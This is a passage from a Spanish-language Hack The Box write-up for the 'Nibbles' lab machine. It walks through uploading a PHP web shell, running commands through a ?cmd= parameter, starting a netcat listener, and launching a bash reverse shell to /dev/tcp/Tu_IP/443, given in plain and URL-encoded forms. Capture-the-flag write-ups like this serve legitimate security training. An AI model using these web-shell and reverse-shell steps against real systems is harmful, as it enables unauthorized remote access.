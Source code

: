 * Guarda y carga el archivo, no importa el nombre que pongas, siempre se guardara como **image.php**:

<p align="center">
<img src="/assets/images/htb-writeup-nibbles/Captura13.png">
</p>


* Entra y prueba el **comando whoami** dentro del parámetro **?cmd=** para ver si funciona

<p align="center">
<img src="/assets/images/htb-writeup-nibbles/Captura14.png">
</p>

* Como ya vimos que funciono, alza una **netcat**:
```bash
nc -nvlp 443
```

* Y usa nuestra **Reverse Shell** favorita de **Bash** para conectarnos a la máquina, recuerda que debes usar la versión URL encodeada:
```bash
Versión normal: 
bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1
-
Version URL encodeada: 
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261
```
<p align="center">
<img src="/assets/images/htb-writeup-nibbles/Captura15.png">
</p>
